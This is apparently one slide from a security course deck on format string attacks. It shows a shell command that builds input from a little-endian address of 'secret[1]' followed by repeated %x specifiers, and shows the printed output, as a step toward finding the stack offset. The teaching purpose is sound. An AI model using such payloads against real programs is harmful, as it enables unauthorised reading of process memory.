

# Print Secret - Construct Input to Observe Distance
Construct Input containing secret[1] address:
$ echo $(printf "\x1c\xb0\x04\x08").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
�.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

Note: Address is specified in reverse due to byte order